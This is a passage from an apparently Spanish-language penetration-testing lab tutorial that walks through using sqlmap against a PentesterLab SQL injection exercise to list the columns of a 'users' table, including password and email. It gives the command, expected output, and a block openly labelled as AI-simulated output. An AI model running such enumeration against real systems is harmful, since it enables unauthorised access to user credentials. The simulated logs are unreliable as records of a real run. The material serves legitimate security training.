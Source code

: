 🔍 Nota: esta salida está claramente marcada como "Generada con IA". En una ejecución real, los tiempos, mensajes y formato pueden variar según la versión de sqlmap y la configuración del servidor. Use esta simulación como ejemplo de lo que debe documentarse cuando se enumeren tablas con sqlmap.

PASO 8: Comando 5 - Enumerar Columnas
Objetivo: Listar todas las columnas de la tabla users.

```bash
sqlmap -u "http://[IP_PENTESTERLAB]/sqli/example1.php?id=1" -D exercises -T users --columns
```

💡 Explicación:

- -T users: Especifica la tabla objetivo
- --columns: Enumera las columnas de esa tabla
📊 Salida esperada (resumen):
[00:53:45] [INFO] fetching columns for table 'users' in database 'exercises'
[00:53:45] [INFO] used SQL query returns 4 entries
[00:53:46] [INFO] retrieved: id
[00:53:46] [INFO] retrieved: int(11)
[00:53:47] [INFO] retrieved: username
[00:53:47] [INFO] retrieved: varchar(100)
[00:53:48] [INFO] retrieved: password
[00:53:48] [INFO] retrieved: varchar(100)
[00:53:49] [INFO] retrieved: email
[00:53:49] [INFO] retrieved: varchar(100)

Database: exercises
Table: users
[4 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| id       | int(11)      |
| username | varchar(100) |
| password | varchar(100) |
| email    | varchar(100) |
+----------+--------------+
🔍 Análisis de Estructura:
Columna Tipo Descripción Sensibilidad
id int(11) Identificador único del usuario 🟢 Baja
username varchar(100) Nombre de usuario 🟡 Media
password varchar(100) Contraseña (posiblemente hasheada) 🔴 Crítica
email varchar(100) Correo electrónico 🔴 Alta

**📊 Simulación de la Práctica — Salida Generada con IA (NO es una ejecución real)**

La siguiente salida es una simulación generada con IA que muestra lo que `sqlmap -D exercises -T users --columns` podría devolver al enumerar columnas de la tabla `users`. Está incluida únicamente con fines didácticos y no proviene de una ejecución real.

```text
[00:53:43] [INFO] testing connection to the target URL
[00:53:44] [INFO] testing if the target URL content is stable
[00:53:45] [INFO] target URL content is stable
[00:53:45] [INFO] testing if GET parameter 'id' is dynamic
[00:53:45] [INFO] GET parameter 'id' appears to be dynamic
[00:53:45] [INFO] testing for SQL injection on GET parameter 'id'

[00:53:45] [INFO] fetching columns for table 'users' in database 'exercises'
[00:53:45] [INFO] used SQL query returns 4 entries
[00:53:46] [INFO] retrieved: id
[00:53:46] [INFO] retrieved: int(11)
[00:53:47] [INFO] retrieved: username
```